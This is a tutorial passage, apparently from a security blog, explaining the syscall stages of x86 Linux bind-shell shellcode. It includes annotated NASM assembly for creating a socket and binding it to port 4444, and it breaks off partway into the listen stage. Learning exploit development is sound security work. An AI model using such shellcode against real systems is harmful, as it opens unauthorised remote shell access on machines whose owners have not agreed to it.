 As we can infer from the graphical presentation, there are 6 main Syscall stages to assemble when creating Bind_Shell Shellcode.

- [ ] Create the socket.
- [ ] Bind the socket.
- [ ] Listen for inbound connection.
- [ ] Accept inbound connection.
- [ ] Duplicate the file descriptors using dup2
- [ ] Execute /bin/sh with execve

Analyzing the code within the corresponding lines:

```c
; Filename: bind_shell.nasm
; Author:  Gal Nagli
; Blog:  naglinagli.github.io

global _start			

section .text
_start:
	
; setting up the socket
       xor eax, eax    ; zeroing out the eax register
       mov al, 0x66    ; hex sys_socketcall (102 in decimal)

       xor ebx, ebx    ; zeroing out the ebx register
       mov bl, 0x1     ; assigning 1 to ebx register (SYS_SOCKET)

       xor esi, esi    ; zeroing out the esi register
       push esi        ; push 0 to the stack (IPPROTO_IP)
       push ebx        ; push 1 to the stack (SOCK_STREAM)
       push 0x2        ; push 2 to the stack (AF_INET)

       mov ecx, esp    ; keep 1st argument address in ecx
       int 0x80         ; syscall

; Bind the socket

       xchg edi, eax   ; save the file descriptor returned to eax in the edi register

       xor eax, eax
       mov al, 0x66    ; making sure we are on the socketcall syscall.

       push esi        ; esi value is 0, specifing the bind address (0.0.0.0)
       push word 0x5C11        ; push the port number (4444)

       inc ebx         ; ebx value is 2, (SYS_BIND)
       push bx

       mov ecx, esp    ; keep 1st argument address in ecx.

       push byte 16    ; push the address length (addrlen)
       push ecx        ; sockaddr structure
       push edi        ; socketfd (file descriptors)
       mov ecx, esp    ; ecx holds the args array for the syscall
       int 0x80        ; init syscall

; Listen for inbound connection

       xor eax,eax
       xor ebx,ebx

       mov al, 0x66
       mov bl, 0x4     ; ebx value is now 4, (SYS_LISTEN)
```
